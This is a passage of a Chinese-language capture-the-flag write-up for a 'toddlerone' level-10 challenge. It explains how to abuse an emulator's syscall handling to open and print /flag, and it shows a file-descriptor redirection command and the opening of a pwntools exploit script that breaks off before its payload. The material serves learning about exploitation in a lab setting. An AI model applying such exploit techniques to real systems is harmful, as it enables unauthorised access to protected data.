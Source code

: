 ## level 10

这个题很巧妙，没有内存溢出的漏洞。只是要利用syscalls实现的漏洞，来达到虽然只是一次syscall但是却是可以执行多个系统调用的效果。这里面不太明白的问题是，为什么将代码写到文件中，然后送入目标程序，同时进行重定向就可以。但是通过pwntool工具启动的话，就无法成功。

关键点，由于read函数返回的是读取的字节大小，下一步write写入的又要是标准输入，所以你要把flag文件大小 `ls -l /flag`对应的文件描述符重定向到标准输出。

但是我用这个命令启动toddlerone_level10.0的话，flag又直接打印在控制台了，可是我之前是将标准输出定向到test文件中了啊。不明白这里为什么会出现这种问题。

```bash
    /challenge/toddlerone_level10.0 < ./bin 57<&1 > ./test
```

```python
from pwn import *
"""
/flag  ---> 2f 66 6c 61 67

arg1      arg2          op 
value     register
          syscall 

a   0x10
b   0x01
c   0x20
d   0x8
s   0x02
i   0x40
f   0x04

read    0x8
write   0x10
open    0x4
exit    0x2

sys 0x8
imm 0x4
jmp 0x80
"""

def format_data_list(a, b, c, read, write, stm, open_, imm, sys, jmp):
    formatted_data_list = []
    for item in data_list:
        formatted_item = item.replace(b'\{a}', bytes([a]))
        formatted_item = formatted_item.replace(b'\{b}', bytes([b]))
        formatted_item = formatted_item.replace(b'\{c}', bytes([c]))


        formatted_item = formatted_item.replace(b'\{read}', bytes([read]))
        formatted_item = formatted_item.replace(b'\{write}', bytes([write]))
        formatted_item = formatted_item.replace(b'\{open}', bytes([open_]))

        formatted_item = formatted_item.replace(b'\{stm}', bytes([stm]))
        formatted_item = formatted_item.replace(b'\{imm}', bytes([imm]))
        formatted_item = formatted_item.replace(b'\{sys}', bytes([sys]))
        formatted_item = formatted_item.replace(b'\{jmp}', bytes([jmp]))


        formatted_data_list.append(formatted_item)
    return formatted_data_list

elf = ELF("/challenge/toddlerone_level10.0")


data_list = [
```